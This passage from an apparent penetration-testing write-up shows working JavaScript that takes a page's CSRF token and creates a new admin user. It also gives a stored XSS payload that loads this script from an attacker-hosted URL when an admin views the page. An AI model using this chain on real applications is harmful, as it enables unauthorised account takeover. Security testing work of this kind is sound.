```javascript
let csrfToken = document.querySelector('meta[name="csrf-token"]').getAttribute('content');

let data = new URLSearchParams();
data.append('_token', csrfToken);
data.append('name', 'Pentester');
data.append('email', 'pentest@pentest.co');
data.append('password', 'Pentest123456#');
data.append('confirm-password', 'Pentest123456#');
data.append('role', '2');

fetch('http://application.com/app/public/admin/users', {
    method: 'POST',
    headers: {
        'Content-Type': 'application/x-www-form-urlencoded',
    },
    body: data
})
.then(response => response.text())
.then(data => {
    console.log('Success:', data);
})
.catch((error) => {
    console.error('Error:', error);
});
```

In this script, after retrieving the `CSRF` token and storing it in the `csrfToken` variable, I created a `URLSearchParams` object to encode and organize the data that will be sent in the request. I appended several key-value pairs, including the CSRF token (`_token`), a name (`Pentester`), an email (`pentest@pentest.co`), a password (`Pentest123456#`), and a role ID (`2`), which is unknown in terms of permissions. I then used the `fetch` API to send a POST request to `http://application.com/app/public/admin/users`, aiming to add a new user. The results were logged in the console.

To test the payload, I hosted it locally and updated the username to include the following malicious script: `'"><script src="http://localhost/exploit.js"></script>`. When the `admin` loaded the page containing this script, the code executed successfully, logging the message in the console and confirming that the new `admin` user was added.



![image](https://github.com/user-attachments/assets/827b31f6-79f4-4ae4-b5b8-e547a4592555)



However, there’s a potential limitation: if the role ID I used in the request doesn’t have sufficient permissions, the new `admin` user may not be able to perform significant actions. This is an issue that needs addressing to ensure the exploit's effectiveness.

## Patch The Role

When we explore all the roles available in the application:

![image](https://github.com/user-attachments/assets/b50539cd-0af2-4d44-8a59-36515344e033)

